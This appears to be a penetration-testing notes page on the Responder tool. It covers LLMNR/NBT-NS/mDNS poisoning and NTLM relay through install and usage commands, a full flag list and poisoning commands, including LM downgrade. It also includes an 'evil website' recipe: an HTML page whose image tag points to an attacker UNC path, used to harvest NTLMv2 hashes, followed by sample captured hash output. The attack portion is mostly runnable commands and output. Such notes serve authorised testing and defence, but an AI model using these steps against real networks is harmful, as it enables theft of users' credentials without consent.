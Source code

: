 ```yaml
---
title : "Responder"
# pre : ' '
description : "LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."
date : 2020-03-11T15:08:07+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Responder

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

## Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

## Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

## Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

## Examples

{{%attachments fa_icon_class="far fa-file-video" pattern="responder.mp4"/%}}

### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -v
```

### Full mode

```plain
sudo ./Responder.py -I <interface> -w -F --lm -v
```

### Evil website

Works on:

- Internet Explorer 8 (8.0.7600.16385, Windows 7)
- Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
- Internet Explorer 11 (11.719.18362.0, Windows 10)
- Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
- Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

- Microsoft Edge (44.18362.449.0 Windows 10)
- Google Chrome (80.0.3987.149, Windows 10)
- Brave (1.5.115, Windows 10)
- Opera (67.0.3575.115, Windows 10)

### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
<img src="\\10.10.10.37\picture.jpg" alt=""></img>
</body>
</html>
```

### Host the site

```plain
python3 -m http.server 80
```

### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

### Client browsed to site

![Example](images/example.png)

### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...]
```

### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

## URL List

- [GitHub.com - Responder](https://github.com/lgandx/Responder)
- [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
